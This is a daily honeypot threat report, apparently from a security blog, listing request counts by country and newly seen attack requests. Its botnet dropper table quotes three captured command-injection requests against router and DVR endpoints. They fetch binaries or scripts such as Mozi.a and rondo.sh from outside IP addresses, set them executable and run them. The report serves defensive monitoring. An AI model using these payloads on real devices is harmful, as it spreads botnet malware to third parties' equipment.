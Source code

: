 ```yaml
---
title: "Report: 2025-06-24 "
date: 2025-06-24
desciption: "Report: 2025-06-24" 
tags: [repport, daily]
---
```



# Daily Report: 2025-06-24 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 3 stage 1 IP address(es), linked to 3 dropper URL(s).  

There are 14 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 700 requests were recorded during the day, originating from 3 different countries, with a peak of 289 requests coming from US.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| CN               | Georgia            |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                                                                                                        |
|:---------------|:-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 144.172.97.104 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20boatnet.arm7%3B%20wget%20http%3A%2F%2F160.187.246.32%2Fhiddenbin%2Fboatnet.arm7%3B%20chmod%20777%20%2A%3B%20.%2Fboatnet.arm7%20tbk HTTP/1.1                                                |
| 122.97.212.38  | GET /shell?cd+/tmp;rm+-rf+*;wget+http://102.33.47.108:41507/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                                                                                                  |
| 45.135.194.34  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=%24%28killall%20-9%20mipsel%20mpsl%3B%28wget%20-O-%20http%3A%2F%2F14.103.145.202%2Frondo.sh%7C%7Cbusybox%20wget%20-O-%20http%3A%2F%2F14.103.145.202%2Frondo.sh%29%20%7C%20sh%20-s%20tplink%3B%29 HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                                                                                                                                                                                                                                                                                                                                    |
|----:|----------------------:|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
|  82 |                     1 | \x00\x0E8x\x13\x0F\xBF\xEF\xD1X~\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                       |
|  90 |                     1 | GET /cgi-bin/sms_send?username=user1&password=user1&number=003584573994612&text=test HTTP/1.1                                                                                                                                                                                                                                                                              |
|  99 |                     1 | GET /cgi-bin/sms_send?username=user1&password=user_pass&number=003584573994612&text=test HTTP/1.1                                                                                                                                                                                                                                                                          |
| 100 |                     1 | GET /cgi-bin/sms_send?username=user1&password=p8xr6tINNA0eGBIY&number=003584573994612&text=test HTTP/1.1                                                                                                                                                                                                                                                                   |
| 169 |                     1 | \x00\x0E82\x9E4F\x89\x80n\xB7\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                          |
| 182 |                     1 | \x00\x0E8\x87qJ\xD2\xCD\xDF\xE66\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                       |
| 183 |                     1 | \x00\x0E\x08\x87qJ\xD2\xCD\xDF\xE66\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                    |
| 184 |                     1 | \x05d\x05\xC9\x00\x00\x00\x006L\x05d\x05\xC9\x01\x00\x00\x00\xDE\x8E\x05d\x05\xC9\x02\x00\x00\x00\x9F\x84\x05d\x05\xC9\x03\x00\x00\x00wF\x05d\x05\xC9\x04\x00\x00\x00\x1D\x90\x05d\x05\xC9\x05\x00\x00\x00\xF5R\x05d\x05\xC9\x06\x00\x00\x00\xB4X\x05d\x05\xC9\x07\x00\x00\x00\x5C\x9A\x05d\x05\xC9\x08\x00\x00\x00\x19\xB9\x05d\x05\xC9\x09\x00\x00\x00\xF1{\x05d\x05\xC9 |
| 194 |                     1 | \x00\x0E8\xB4\xB4\xBB\xA0\xFC\xB11l\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                    |
| 209 |                     1 | \x00\x0E\x08M\x1D\xA0fG\xC5\xEF\xAF\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                    |
| 210 |                     1 | \x00\x0E8M\x1D\xA0fG\xC5\xEF\xAF\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                       |
| 211 |                     1 | \x12\x01\x00^\x00\x00\x01\x00\x00\x00$\x00\x06\x01\x00*\x00\x01\x02\x00+\x00\x01\x03\x00,\x00\x04\x04\x000\x00\x01\x05\x001\x00$\x06\x00U\x00\x01\xFF\x04\x07\x0C\xBC\x00\x00\x00\x00\x00\x00\x15\xD0\x00\xAF/d\x8A\xF7\x7F\x00\x00\x00\xFA\x1D\xED\x1C\x00\x00\x00\xE0\x81\x89\x8A\xF7\x7F\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01                    |
| 217 |                     1 | \x00\x0E8\xD3L\xD6\xD9\xBBE\x9A\xEB\x00\x00\x00\x00\x00                                                                                                                                                                                                                                                                                                                    |
| 222 |                     1 | \x12\x01\x00^\x00\x00\x01\x00\x00\x00$\x00\x06\x01\x00*\x00\x01\x02\x00+\x00\x01\x03\x00,\x00\x04\x04\x000\x00\x01\x05\x001\x00$\x06\x00U\x00\x01\xFF\x04\x07\x0C\xBC\x00\x00\x00\x00\x00\x00\x15\xD0\x00\xAF/\x9F\x83\xF7\x7F\x00\x00\x10\xF5=\x82`\x00\x00\x00\xE0\x81\xC4\x83\xF7\x7F\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x01                       |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   289 | US                 |
|  1 |                    64 | CN                 |
|  2 |                    46 | BG                 |
|  3 |                    45 | DE                 |
|  4 |                    45 | NL                 |
|  5 |                    24 | JP                 |
|  6 |                    21 | IN                 |
|  7 |                    18 | CA                 |
|  8 |                    18 | SG                 |
|  9 |                    18 | GB                 |
| 10 |                    16 | ID                 |
| 11 |                     9 | LT                 |
| 12 |                     7 | RU                 |
| 13 |                     7 | BR                 |
| 14 |                     6 | PL                 |
| 15 |                     6 | CH                 |
| 16 |                     6 | ZA                 |
| 17 |                     6 | IL                 |
| 18 |                     6 | PT                 |
| 19 |                     5 | SC                 |
| 20 |                     4 | BE                 |
| 21 |                     4 | AO                 |
| 22 |                     4 | UA                 |
| 23 |                     3 | FR                 |
| 24 |                     3 | KZ                 |
| 25 |                     3 | AU                 |
| 26 |                     2 | MD                 |
| 27 |                     2 | KR                 |
| 28 |                     2 | HK                 |
| 29 |                     2 | KW                 |
| 30 |                     2 | SE                 |
| 31 |                     2 | IE                 |
| 32 |                     1 | MC                 |
| 33 |                     1 | ES                 |
| 34 |                     1 | KH                 |
| 35 |                     1 | VE                 |
| 36 |                     1 | AZ                 |
